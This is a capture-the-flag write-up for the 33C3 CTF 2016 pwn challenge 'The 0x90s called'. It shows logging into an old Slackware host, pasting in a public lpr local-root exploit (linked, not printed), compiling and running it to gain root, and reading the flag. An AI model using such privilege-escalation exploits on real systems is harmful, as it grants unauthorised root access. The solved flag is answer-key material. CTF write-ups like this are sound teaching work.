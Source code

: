 ```yaml
---
title: 33C3 CTF 2016 -- The 0x90s called
date: 2016-12-29 21:40
tags:
- CTF
- 33C3
- Pwnable
- local_root
categories:
- write-ups
---
```


**Category:** pwn  
**Points:** 150

<!-- more -->  

First we'll have to go to a web page to start our challenge session. The page will show us the port (same IP address with the web page) and the ID/password.

Once we connected to the remote host and login the machine, we'll found that we're inside a [Slackware Linux](http://www.slackware.com/):
```
$ nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ uname -a
Linux slack 0.99.12 #6 Sun Aug 8 16:02:35 CDT 1993 i586
```

Later we'll found that there's a `flag.txt` inside the root directory:
```
slack:/$ ls -al /flag.txt
-r--------   1 root     root           36 Dec 27  1916 /flag.txt
```

Looks like we'll need a local root exploit to capture the flag. 

By googling **"slackware linux 0.99 local root exploit"**, we found a working [PoC](https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c). Now all we need to do is copy the PoC to the remote host, then compile & execute the exploit so we can escalate to root.

Although it looks simple, it still took me a while to complete the challenge, since there's no tool that can help us download the PoC to the host -- **no `wget`, no `curl`, not even `nc`!!** And the `vi` editor is just terrible!! Finally I decided to use `cat <<'EOF' >> test.c` + copy & paste to write the exploit into `test.c`.

After we compile & execute the local root exploit, we're able to escalate to root and get the flag:
```
slack:~$ gcc -o test test.c
slack:~$ ./test
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3
```

flag: `33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3`
